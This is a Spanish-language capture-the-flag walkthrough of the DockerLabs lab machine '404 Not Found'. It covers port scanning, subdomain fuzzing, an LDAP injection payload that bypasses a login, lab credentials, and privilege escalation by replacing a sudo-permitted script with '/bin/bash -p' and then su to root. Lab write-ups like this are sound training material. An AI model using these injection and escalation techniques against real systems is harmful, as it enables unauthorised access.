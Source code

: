 #MAQUINA #DOCKERLABS #MEDIO
#SUBDOMAINS #LDAP #LDAPI
<hr>

# RECONOCIMIENTO

Vamos a resolver **404 Not Found** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 09:01 CET
Initiating ARP Ping Scan at 09:01
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:01, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:01
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:01, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-24 09:01:27 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene los puertos **22(SSH)**, **80(HTTP)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 09:02 CET
Nmap scan report for hidden.lab (172.17.0.2)
Host is up (0.000017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 59:4e:10:e2:31:bf:13:43:c9:69:9e:4f:3f:a2:95:a6 (ECDSA)
|_  256 fb:dc:ca:6e:f5:d6:5a:41:25:2b:b2:21:f1:71:16:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://404-not-found.hl/
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds



```

```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 09:03 CET
Nmap scan report for 404-not-found.hl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds




```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.


## HTTP (80)

Al revisar la web vemos un texto en base64 (la clave secreta en el participar.html) que nos dice que revisemos la URL.

Vamos a usar **wfuzz** para encontrar subdominios.

```bash
wfuzz -u "http://404-not-found.hl" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.404-not-found.hl" --hc=301
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://404-not-found.hl/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000097:   200        149 L    152 W      2023 Ch     "info"                                                                                                                   
000009532:   400        10 L     35 W       299 Ch      "#www"                                                                                                                   
000010581:   400        10 L     35 W       299 Ch      "#mail"                                                                                                                  
000047706:   400        10 L     35 W       299 Ch      "#smtp"                                                                                                                  
000103135:   400        10 L     35 W       299 Ch      "#pop3"                                                                                                                  

Total time: 0
Processed Requests: 114441
Filtered Requests: 114436
Requests/sec.: 0

```

Efectivamente, tenemos **info.404-not-found.html**

## info.404-not-found.html(80)

Vemos que tenemos un login y si hacemos CTRL + U, vemos un comentario diciendo que es un LDAP.

# EXPLOTACION

Abrimos burpsuite para intentar tensarlo, vemos inicialmente dos parámetros(username y password).

Tras un rato, logro acceder de la siguiente manera:

```bash
POST /login.php HTTP/1.1
Host: info.404-not-found.hl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://info.404-not-found.hl
Connection: keep-alive
Referer: http://info.404-not-found.hl/index.html
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=*)(|(*)&password=*
```

Significado : LDAP busca un usuario cualquiera (`*)`) cuya password sea cualquiera o la introducida(`(|(*)`).

Esto es porque la web usa una comprobación igual a  : `(&(user=*)(|(*)(pass=pwd))`

```bash
        <div class="admin-credentials">
            <h2>Credenciales de Admin</h2>
            <p>Nombre de usuario: <code>404-page</code></p>
            <p>Contraseña: <code>not-found-page-secret</code></p>
        </div>
```

YA ESTAMOS COMO 404-PAGE.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
404-page@a5272c83bf50:~$ sudo -l
Matching Defaults entries for 404-page on a5272c83bf50:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User 404-page may run the following commands on a5272c83bf50:
    (200-ok : 200-ok) /home/404-page/calculator.py


```

Vemos **calculator.py** con permisos SUDO, borramos el archivo y ejecutamos esto:

   ```bash
   
404-page@a5272c83bf50:~$ cat calculator.py 
#!/bin/bash

/bin/bash -p
404-page@a5272c83bf50:~$ sudo -u 200-ok /home/404-page/calculator.py
200-ok@a5272c83bf50:/home/404-page$ 

```

YA ESTAMOS COMO 200-OK.

Vemos su directorio personal :

```bash
200-ok@a5272c83bf50:/home$ cd 200-ok/
200-ok@a5272c83bf50:~$ ls -la
total 44
drwxr-x--- 1 200-ok 200-ok 4096 Aug 19  2024 .
drwxr-xr-x 1 root   root   4096 Aug 19  2024 ..
-rw------- 1 200-ok 200-ok  275 Feb 24 10:52 .bash_history
-rw-r--r-- 1 200-ok 200-ok  220 Aug 19  2024 .bash_logout
-rw-r--r-- 1 200-ok 200-ok 3771 Aug 19  2024 .bashrc
drwxrwxr-x 3 200-ok 200-ok 4096 Aug 19  2024 .local
-rw-r--r-- 1 200-ok 200-ok  807 Aug 19  2024 .profile
-rw-r--r-- 1 root   root     20 Aug 19  2024 boss.txt
-rw-r--r-- 1 root   root     33 Aug 19  2024 user.txt
200-ok@a5272c83bf50:~$ cat boss.txt 

What is rooteable

200-ok@a5272c83bf50:~$ su root
Password: 
root@a5272c83bf50:/home/200-ok# whoami
root
root@a5272c83bf50:/home/200-ok# 

```

**YA ESTAMOS COMO ROOT.**